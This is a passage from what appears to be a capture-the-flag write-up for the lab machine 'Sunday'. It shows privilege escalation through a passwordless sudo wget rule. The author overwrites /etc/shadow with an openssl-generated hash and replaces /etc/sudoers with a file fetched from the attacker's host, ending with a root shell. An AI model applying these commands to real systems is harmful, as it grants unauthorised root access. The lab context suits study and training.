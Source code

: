     02:00:10 (42.45 MB/s) - `/etc/shadow' saved [392/392]
    
    sammy@sunday:~$ su -
    Password:
    Sun Microsystems Inc.   SunOS 5.11      snv_111b        November 2008
    You have new mail.
    root@sunday:~# id
    uid=0(root) gid=0(root) groups=0(root),1(other),2(bin),3(sys),4(adm),5(uucp),6(mail),7(tty),8(lp),9(nuucp),12(daemon)
    

If I had wanted to give root a different password, and not just copy from
sunny or sammy, I could use openssl:

    
    
    root@kali# openssl passwd -1 -salt 0xdf password
    $1$0xdf$fKKvgEPPSu1HMdNI3w5i50
    

Then put that into shadow:

    
    
    root@kali# head -1 shadow
    root:$1$0xdf$fKKvgEPPSu1HMdNI3w5i50:17636::::::
    

And now I can `su` with the password “password”.

#### Overwrite sudoers

The `/etc/sudoers` file defines who can run sudo on which applications. We can
estimate that, without comments, the unmodified file on Sunday looks something
like:

    
    
    root  ALL=(ALL) ALL
    sammy ALL=(root) NOPASSWD: /usr/bin/wget
    sunny ALL=(root) NOPASSWD: /root/troll
    

Let’s change that slightly in a copy on our local host, giving sammy the
ability to run `su` without password:

    
    
    root  ALL=(ALL) ALL
    sammy ALL=(root) NOPASSWD: /usr/bin/su
    sunny ALL=(root) NOPASSWD: /root/troll
    

Now, use wget to overwrite the file on Sunday, and then it is easy to get a
root shell:

    
    
    sammy@sunday:~$ sudo wget -O /etc/sudoers http://10.10.14.5/sudoers
    --02:07:08--  http://10.10.14.5/sudoers
               => `/etc/sudoers'
    Connecting to 10.10.14.5:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 99 [application/octet-stream]
    